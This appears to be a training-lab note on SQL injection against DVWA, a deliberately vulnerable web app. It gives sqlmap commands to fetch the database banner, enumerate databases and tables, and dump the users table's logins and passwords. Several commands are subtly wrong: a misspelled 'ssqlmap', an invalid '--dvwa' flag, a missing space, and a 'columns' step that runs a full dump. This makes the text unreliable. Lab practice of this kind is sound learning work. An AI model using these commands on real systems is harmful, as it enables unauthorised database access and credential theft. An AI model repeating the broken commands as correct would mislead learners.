

# Next, use a UNION-bases injection to perform the following tasks:
Grab the database banner.
List all available databases.
List the tables of the dvwa database.
List the columns of the users table.
Dump the login and password columns of the users table.

> Banner = sqlmap -u "http://youripaddress/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=your session ID; security=low"--banner

> Databases = ssqlmap -u "http://youripaddress/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=your session ID; security=low" --dvwa

> Tables = sqlmap -u "http://youripaddress/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=your session ID; security=low" --tables

> Columns of the users table =  sqlmap -u "http://youripaddress/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=your session ID; security=low" --current-db dvwa --dump

> cat users.csv